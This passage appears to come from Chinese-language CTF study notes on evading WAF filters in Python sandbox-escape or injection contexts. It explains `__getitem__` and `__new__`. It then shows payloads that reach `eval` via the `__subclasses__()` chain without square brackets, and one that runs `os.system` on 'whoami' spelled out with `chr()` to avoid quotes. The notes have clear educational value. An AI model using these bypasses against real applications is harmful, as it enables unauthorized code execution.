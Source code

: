 ### 绕waf

>`__getitem__` 是 Python 中的特殊方法之一，用于支持对象的索引操作。当一个对象定义了 `__getitem__` 方法时，它就可以像序列（如列表、元组等）一样进行索引和切片操作。
>
>在 Python 中，我们通常使用方括号 `[]` 来对序列类型的对象进行索引操作。例如，对于列表 `my_list`，我们可以使用 `my_list[index]` 来获取列表中指定索引位置的元素。当 `my_list` 定义了 `__getitem__` 方法时，这个索引操作就会调用对象的 `__getitem__` 方法，来实现对元素的获取。

>`__new__` 是 Python 中的一个特殊方法，用于创建类的实例（对象）。它是一个静态方法，负责在对象创建之前分配内存空间，并返回一个新的实例。
>
>在 Python 中，对象的创建通常是通过调用类的构造函数 `__init__` 实现的。`__init__` 方法用于对实例进行初始化操作，而 `__new__` 方法则用于实际的对象创建。
>
>当我们创建一个类的实例时，Python 解释器会首先调用 `__new__` 方法来创建一个新的实例对象，并将该实例对象作为第一个参数传递给 `__init__` 方法。然后，`__init__` 方法在这个实例对象上执行初始化操作。

###### 过滤[]

应对的方式就是将`[]`的功能用`pop`、`__getitem__` 代替（实际上`a[0]`就是在内部调用了`a.__getitem__(0)`）：

```
>>> "".__class__.__mro__[-1].__subclasses__()[7].__new__.__class__.__call__(eval, "1+1")
2
>>> "".__class__.__mro__.__getitem__(-1).__subclasses__().pop(7).__new__.__class__.__call__(eval, "1+1")
2
```

dict 也是可以 pop 的：`{"a": 123}.pop("a")`，也可以`dict.get(key, default)`

```
>>> {'a': 123}.pop('a')
123
>>> {'a': 123}.get('a')
123
>>> {'a': 123}.get('b', 456)
456
```

当然也可以用 `next(iter())` 替代，或许可以加上 `max` 之类的玩意。

```
>>> max(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1'])
'csdzxc'
>>> next(iter(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1']))
'1'
>>> min(['1','2','3','4','5','6','7','8','a','b','0', 'csdzxc', '-1'])
'-1'
```

###### **过滤引号**

**`chr()`：将一个Unicode编码对应的整数值转换为对应的字符，直接用chr把字符串拼出来**

```
>>> __import__('os').system(chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105))
desktop-13qds1a\lenovo
0
```
